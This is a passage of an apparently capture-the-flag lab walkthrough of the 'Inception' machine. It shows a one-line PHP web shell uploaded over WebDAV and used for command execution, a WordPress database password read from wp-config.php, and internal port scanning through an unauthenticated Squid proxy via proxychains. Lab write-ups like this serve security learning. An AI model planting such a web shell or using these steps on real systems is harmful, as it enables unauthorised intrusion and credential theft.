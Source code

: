 The _cmd.php_ contains the following PHP code:
```markdown
<?php echo system($\_REQUEST['cmd']); ?>
```

It got uploaded successfully and command execution works:
```markdown
http://10.10.10.67/webdav_test_inception/cmd.php?cmd=whoami
```

This displays the output of the `whoami` command.
When trying out different reverse shell commands, the box never connects to our local client, because there is probably a firewall that prevents it from that.

After enumerating the web application more, I found the directory _/wordpress_4.8.3_.
With the custom Python script, I attempted to read the Wordpress configuration file _wp-config.php_ which exists in _/var/www/html/wordpress_4.8.3/wp-config.php_. In this file there is a database password, that could be used later:
```markdown
/** MySQL database username \*/
define('DB_USER', 'root');

/** MySQL database password \*/
define('DB_PASSWORD', 'VwPddNh7xMZyDQoByQL4');

/** MySQL hostname \*/
define('DB_HOST', 'localhost');
```

Lets see if the **Squid proxy** has some more information to proceed.

## Checking HTTP Proxy (port 3128)

The HTTP proxy on port 3128 is a **Squid proxy** without authentication that can be added in our proxy list in the browser and into **proxychains.conf** so that commands go through the proxy.
```markdown
vim /etc/proxychains.conf

# Add proxy to proxychains
http 10.10.10.67 3128
```

When browsing to _127.0.0.1_ it shows the HTTP page from before and confirms that the proxy connection works.
Now an Nmap scan through **proxychains** will have one more open port than before:
```markdown
proxychains nmap -sT -n -o nmap/inception_throughproxy.nmap 127.0.0.1
```

```markdown
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3128/tcp open  squid-http
```
